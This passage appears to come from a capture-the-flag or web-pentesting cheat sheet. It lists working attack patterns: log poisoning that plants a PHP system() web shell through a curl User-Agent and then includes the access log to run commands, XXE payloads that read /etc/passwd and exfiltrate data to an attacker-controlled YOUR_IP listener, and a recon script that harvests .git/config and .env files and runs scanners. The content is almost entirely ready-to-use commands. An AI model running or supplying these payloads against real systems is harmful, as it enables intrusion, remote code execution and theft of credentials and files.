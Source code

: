 ### Pattern 6: LFI → RCE via Log Poisoning
```bash
# 1. Poison access log with PHP code
curl -A "<?php system(\$_GET['c']); ?>" $TARGET/

# 2. Include log file and execute
curl "$TARGET/page?file=/var/log/apache2/access.log&c=cat /flag.txt"

# Common log locations:
# /var/log/apache2/access.log
# /var/log/nginx/access.log
# /var/log/httpd/access_log
```

### Pattern 7: XXE (XML External Entity)
```bash
# Test endpoint
curl -X POST $TARGET/xml -H "Content-Type: application/xml" \
  -d '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><root>&xxe;</root>'

# Exfiltrate via out-of-band
# On your server: nc -lvnp 8000
curl -X POST $TARGET/xml -H "Content-Type: application/xml" \
  -d '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://YOUR_IP:8000/?data=test">]><root>&xxe;</root>'
```

---

## 🚀 Automation Scripts

### Script 1: Quick Recon
```bash
#!/bin/bash
# quick_recon.sh

TARGET=$1
OUTPUT="recon_$(date +%s)"
mkdir -p $OUTPUT

echo "[+] Starting recon on $TARGET"

# Basic info
echo "[*] Checking basic files..."
for file in robots.txt sitemap.xml .git/config .env; do
    curl -s "$TARGET/$file" -o "$OUTPUT/$file" 2>/dev/null && echo "[+] Found: $file"
done

# Directory fuzzing
echo "[*] Directory fuzzing..."
gobuster dir -u $TARGET -w /usr/share/wordlists/dirb/common.txt -q -o $OUTPUT/dirs.txt

# Subdomain enum
echo "[*] Subdomain enumeration..."
sublist3r -d $(echo $TARGET | sed 's|http[s]*://||' | cut -d/ -f1) -o $OUTPUT/subdomains.txt 2>/dev/null

# Nikto scan
echo "[*] Running Nikto..."
nikto -h $TARGET -o $OUTPUT/nikto.txt -Format txt

echo "[+] Recon complete! Check $OUTPUT/"
```